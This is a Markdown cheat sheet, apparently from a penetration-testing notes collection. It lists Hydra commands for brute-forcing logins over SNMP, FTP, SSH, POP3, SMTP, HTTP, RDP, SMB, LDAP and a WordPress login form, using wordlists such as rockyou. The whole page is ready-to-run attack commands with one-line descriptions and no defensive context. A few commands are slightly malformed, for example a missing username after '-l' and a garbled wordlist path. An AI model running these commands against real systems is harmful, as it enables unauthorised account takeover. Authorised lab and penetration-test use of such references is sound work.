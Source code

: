 ```yaml
---
description: Hydra cheat sheet
---
```


# Hydra Cheat Sheet

## Hydra-Cheatsheet

Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:

`export ip 10.10.10.1`

| Command                                                                                                                                      | Description                                          |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| hydra -P password-file.txt -v $ip snmp                                                                                                       | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                          | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                                 | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh                                                                                            | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l -P big\_wordlist.txt                                                                                                  | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                             | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                            | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                    | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                              | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                                | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log In\&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f                                                                                        | SMB Brute Forcing                                    |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f                                                                                          | LDAP Brute Forcing                                   |
